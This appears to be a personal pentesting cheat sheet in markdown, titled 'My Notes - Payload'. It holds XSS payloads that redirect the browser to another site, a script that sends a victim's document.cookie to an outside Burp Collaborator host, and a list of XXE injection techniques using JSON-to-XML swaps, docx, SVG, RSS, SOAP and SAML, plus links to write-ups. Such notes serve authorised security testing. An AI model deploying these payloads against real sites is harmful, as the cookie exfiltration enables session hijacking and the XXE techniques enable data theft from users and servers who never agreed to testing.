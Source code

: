 # My Notes - Payload

## XSS to Open Redirection Payload:
1. http://Test"><img src=x onload=window.location="http://google.com">
2. "><img src=x onerror=window.location="http://google.com">

## Exfiltrate cookie:
<script>fetch('https://anmol.burpcollaborator.net?'+document.cookie, {method: 'POST',mode: 'no-cors',body:document.cookie});alert('exfiltrated the document.cookie');</script>

## Multi XSS Exploit in Upload File
1. <a href="https://systemweakness.com/multi-xss-exploit-in-upload-file-2bfde6ce471a">Multi XSS Exploit in Upload File</a>

## Tiny XSS
1. <a href="https://tinyxss.terjanq.me/">Tiny XSS by @terjanq</a>

## Server-Side input validation testing
1. <a href=https://redtm.com/web-pentest/server-side-input-validation>Server-Side input validation testing</a>

## XXE Techniques [Observations]
1. Convert the content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml".
2. File Uploads allows for docx/xlcs/pdf/zip , unzip the package and add your evil xml code into the xml files.
3. If svg allowed in picture upload , you can inject xml in svgs.
4. If the web app offers RSS feeds , add your malicious code into the RSS.
5. Fuzz for /soap api , some applications still running soap apis
6. If the target web app allows for SSO integration, you can inject your malicious xml code in the SAML request/response

## XXE OOB
1. <a href="SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software">SOAP- Based Unauthenticated Out-of-Band XML External Entity (OOB-XXE) in a Help Desk Software</a>
2. <a href="https://hackerone.com/reports/36450">Soap-based XXE vulnerability /soapserver/</a>
